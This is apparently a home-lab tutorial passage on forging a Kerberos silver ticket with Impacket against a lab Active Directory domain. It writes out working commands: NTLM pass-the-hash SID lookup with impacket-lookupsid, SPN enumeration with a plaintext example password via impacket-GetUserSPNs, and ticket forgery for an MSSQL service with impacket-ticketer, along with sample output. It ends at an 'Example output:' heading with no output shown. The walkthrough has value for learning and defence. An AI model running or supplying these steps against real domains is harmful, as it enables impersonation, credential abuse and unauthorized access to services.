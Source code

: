 ### Step 1: Get the Domain SID

Use the following command to get the domain SID:

```bash
impacket-lookupsid -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0
````

Example output:

```
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/silver-ticket]
└─$ impacket-lookupsid  -hashes aad3b435b51404eeaad3b435b51404ee:d357369b3b468d80639b09d997195302 furious.local/sql_user@furious.local

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at furious.local
[*] StringBinding ncacn_np:furious.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3290932372-4080220911-1111251399
```

### Step 2: Get the User SPN

Now, use the tool `impacket-GetUserSPNs` to get the user SPN. For example, if we have credentials for user `jack` with password `complex1@`:

```bash
impacket-GetUserSPNs furious.local/jack:complex1@ -dc-ip 192.168.129.140
```

Example output:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                       Name      MemberOf                                                   PasswordLastSet             LastLogon                   Delegation 
-----------------------------------------  --------  ---------------------------------------------------------  --------------------------  --------------------------  ----------

MSSQLSvc/DC01-FURIOUS5.furious.local:1433  sql_user                                                             2025-05-05 11:14:54.950789  2025-05-05 11:24:09.700971             
```

### Step 3: Create the Silver Ticket

Use the following command to generate the silver ticket:

```bash
impacket-ticketer -nthash "d357369b3b468d80639b09d997195302" -domain-sid "S-1-5-21-3290932372-4080220911-1111251399" -domain "furious.local" -spn "MSSQLSvc/DC01-FURIOUS5.furious.local:1433" "sql_user"
```

Example output:
